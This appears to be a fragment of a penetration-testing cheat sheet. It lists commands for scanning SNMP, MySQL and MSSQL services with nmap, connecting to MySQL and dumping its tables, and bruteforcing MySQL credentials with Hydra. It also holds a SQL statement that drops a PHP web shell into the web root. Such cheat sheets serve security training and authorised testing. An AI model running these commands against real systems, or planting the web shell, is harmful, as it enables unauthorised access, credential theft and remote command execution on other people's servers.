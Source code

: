 ```bash
nmap --script "snmp-*" -p 161 <IP>
```
### MySQL - Relational Database Management System - Port 3306

Using nmap scripts
```bash
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

Connect to mysql
```bash
mysql -u <Username> -p<Password> -h <IP>
```

See available databases
```bash
MySQL [(none)]> show databases;
``` 
See DB Version
```bash
MySQL [(none)]> select version();
```
Select database
```bash
SQL [(none)]> use mysql;
```
Enumerate tables
```bash
MySQL [mysql]> show tables;
```
Enumerate tables
```bash
MySQL [mysql]> show tables;
```
Show columns in a selected dataset
```bash
MySQL [mysql]> show columns from <table>;
```
Show all information in a table
```bash
MySQL [mysql]> select * from <table>;
```
Search for needed string in the desired table.
```bash
MySQL [mysql]> select * from <table> where <column> = "<string>";
```

Bruteforcing credentials with hydra
```bash
hydra -L users.txt -P passwords.txt -s 3306 -f <IP> mysql
```

If we have file write permissions, we can drop a PHP shell:
```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```
### MSSQL - Microsoft SQL Server - Port 1433
##### Scanning for MSSQL Services
```bash
nmap -p 1433 --script ms-sql-* <IP>
```
